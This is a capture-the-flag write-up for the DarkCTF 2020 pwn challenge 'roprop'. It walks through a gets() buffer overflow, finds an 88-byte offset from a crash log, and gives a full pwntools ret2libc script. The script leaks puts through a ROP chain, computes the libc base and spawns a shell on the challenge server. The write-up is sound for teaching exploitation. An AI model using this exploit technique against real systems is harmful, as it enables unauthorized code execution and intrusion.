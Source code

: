 DarkCTF2020: PWN - roprop
------------

Challenge Description:

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/pwn/images/roprop-description.PNG "Flag: DarkCTF{just_kidding}")

From the challenge description we can get one important detail, rope or "ROP" is going to be used in this challenge _this was the 1st pwn challenge in the ctf... yea! xD_

If we run the binary it will display a bunch of text and asks for an input, if you supply an input it will exit the program. Pretty straight forward!

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/pwn/images/roprop-1.PNG "Keep reading!")

Next step is to look at the binary in [ghidra](https://ghidra-sre.org/) 

```C++
undefined8 main(void)

{
  char local_58 [80];
  
  nvm_init();
  nvm_timeout();
  puts("Welcome to the Solar Designer World.\n");
  puts("He have got something for you since late 19\'s.\n");
  gets(local_58);
  return 0;
}
```

The main function is pretty short, _thank god!_, `local_58` is our input variable, as we can see from the line `gets(local_58)`, that input is a buffer of 80 bytes. 
>The gets function used here is extremely insecure as it does not limit the amount of input we store in the specified buffer, therefore a buffer overflow can occure.

Now lets check for the buffer overflow and if we can overwrite the instruction pointer `rip`, first we scream at the program... ehm, _observe_.

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/pwn/images/roprop-2.PNG "we all scream for ice-cream")

```S
# dmesg

[ 5615.822856] roprop[3444]: segfault at 7ff73e004141 ip 00007ff73e004141 sp 00007ffecb650c10 error 14 in libc-2.31.so[7ff73e1a2000+25000]
[ 5615.822865] Code: Bad RIP value.
```
`Segmentation fault` is a great indicator that the program crashed due to the buffer overflow, by providing "A"*90. When we run `dmesg` as root we will see that the crash was due to a bad RIP value, and the ip value has 2 `4141` in its LSB we can deduce the value of the offset to be `90 bytes - 2 bytes = 88 bytes` 

Now its time to craft the payload using python and pwntools.

```python
#!/usr/bin/env python3

from pwn import *

context.arch='amd64' #Specifying the arch of the binary
elf = ELF("./roprop") #Importing the binary as an ELF object
p = remote("roprop.darkarmy.xyz", 5002) #Specifying the host and port of the challenge where the flag is located
#p = elf.process()

offset = 88 #Calculated offset between our input buffer and the RIP
p.recvuntil("since late 19's.") #Recieving the output strings of the binary

########################
# Building the payload #
########################

rop = ROP(elf) #Creating the rop object from the imported binary -curtisy of pwntools-
rop.call("puts", [elf.got['puts']]) # Gadget 1` Adding the "puts" gadget and specifying its argument to be the address of libc puts in the global offset table (GOT)
rop.call("main") # Gadget 2` Adding the binary's main function in our ROP chain -as POC and sanity check-
craft = [
        b"A"*offset,
        rop.chain() # Creating the chain and linking the gadgets, specified above, together
]

payload = b"".join(craft) # The payload will leak the address of puts and run the main function again.
p.sendline(payload) # Send the payload
p.recvline()
p.recvline()
puts = u64(p.recvline().rstrip().ljust(8, b"\x00")) # Display the puts address in an unpacked 64-bin format
log.info(f"puts found at {hex(puts)}") # Log our findings

# After getting the address of puts we should search on libc database website for the correct libc version that the server is using, download that libc.so file and use it in the next payload

##########################
# Importing libc gadgets #
##########################

libc = ELF("libc6_2.27-3ubuntu1.2_amd64.so") # Creating the ELF object of the correct libc version
libc.address = puts - libc.symbols['puts'] # Adjusting our libc address to be equal to the server's run-time libc address
log.info(f"libc_base_address determined at {hex(libc.address)}") # Log our findings

rop = ROP(libc) # Creating the ROP object of our downloaded libc
rop.call('puts', [next(libc.search(b'/bin/sh\x00'))])  # Gadget 1` libc's puts with the argument to search for /bin/sh -POC and Sanity check
rop.call('system', [next(libc.search(b'/bin/sh\x00'))]) # Gadget 2` libc's system with the argument /bin/sh to get a shell
rop.call('exit') # Gadget 3` Gracefully exit the program
craft = [
        b"A"*offset,
        rop.chain() # Chainning our specified gadgets
]

payload = b"".join(craft) # Payload should output /bin/sh and execute system(/bin/sh) and give us a shell, when we are done should exit gracefully
p.sendline(payload)
p.interactive() # ls -la && cat flag.txt
```

With that script we should be able to solve the challenge, I took the liberty of explaining it in the comments and I do recommend researching of the topic because it is extremely vast and interesting. 

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/pwn/images/roprop-flag.png "hacker man!")